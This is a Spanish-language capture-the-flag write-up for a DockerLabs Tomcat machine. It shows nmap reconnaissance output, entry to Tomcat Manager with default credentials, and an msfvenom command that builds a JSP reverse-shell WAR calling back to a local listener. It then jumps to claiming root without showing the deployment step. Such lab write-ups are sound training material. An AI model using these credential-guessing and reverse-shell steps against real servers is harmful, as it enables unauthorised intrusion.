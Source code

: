 #MAQUINA #DOCKERLABS #FACIL 
#TOMCAT #MSFVENOM
<hr>

# RECONOCIMIENTO

Vamos a resolver **-Pn** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 16:41 CET
Initiating ARP Ping Scan at 16:41
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:41, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:41
Scanning 172.17.0.2 [65535 ports]
Discovered open port 8080/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:41, 0.53s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-09 16:41:50 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **8080(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p8080 172.17.0.2                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 16:42 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000016s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 16:42 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /manager/html/upload: Apache Tomcat (401 )
|_  /manager/html: Apache Tomcat (401 )
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds

whatweb "http://172.17.0.2:8080/"
http://172.17.0.2:8080/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], Title[Apache Tomcat/9.0.88]

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

# EXPLOTACION

Al revisar la web que hay en el puerto 8080, vemos que no hay nada interesante. Probamos credenciales genéricas de tomcat para entrar al manager: 

   ```bash
tomcat:s3cr3t
```

Estamos dentro del Tomcat Web Application Manager, ahora desplegamos un .war con **msfvenom** (lo creamos) mientras escuchamos por el puerto 443 .

   ```bash
   
	msfvenom -p java/jsp_shell_reverse_tcp --platform linux -a x86 LHOST=172.17.0.1 LPORT=443 -b'/x00/x0a/x0d' EXITFUNC=thread -o payload.war -f war

```

**ESTAMOS COMO ROOT.**


